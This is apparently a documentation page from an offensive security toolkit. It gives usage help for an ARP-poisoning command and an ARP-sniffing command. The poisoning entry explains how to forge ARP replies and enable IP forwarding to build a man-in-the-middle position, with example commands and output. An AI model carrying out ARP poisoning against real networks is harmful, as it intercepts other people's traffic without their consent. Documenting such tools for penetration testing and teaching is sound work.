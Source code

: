 ## habu.arp.poison


``` {.sourceCode .bash}
Usage: habu.arp.poison [OPTIONS] VICTIM1 VICTIM2

  Send ARP 'is-at' packets to each victim, poisoning their ARP tables for
  send the traffic to your system.

  Note: If you want a full working Man In The Middle attack, you need to
  enable the packet forwarding on your operating system to act like a
  router. You can do that using:

  # echo 1 > /proc/sys/net/ipv4/ip_forward

  Example:

  # habu.arpoison 192.168.0.1 192.168.0.77
  Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
  Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.70
  Ether / ARP is at f4:96:34:e5:ae:1b says 192.168.0.77
  ...

Options:
  -i TEXT  Interface to use
  -v       Verbose
  --help   Show this message and exit.
```


## habu.arp.sniff


``` {.sourceCode .bash}
Usage: habu.arp.sniff [OPTIONS]

  Listen for ARP packets and show information for each device.

  Columns: Seconds from last packet | IP | MAC | Vendor

  Example:

  1   192.168.0.1     a4:08:f5:19:17:a4   Sagemcom Broadband SAS
  7   192.168.0.2     64:bc:0c:33:e5:57   LG Electronics (Mobile Communications)
  2   192.168.0.5     00:c2:c6:30:2c:58   Intel Corporate
  6   192.168.0.7     54:f2:01:db:35:58   Samsung Electronics Co.,Ltd

Options:
  -i TEXT  Interface to use
  --help   Show this message and exit.
```

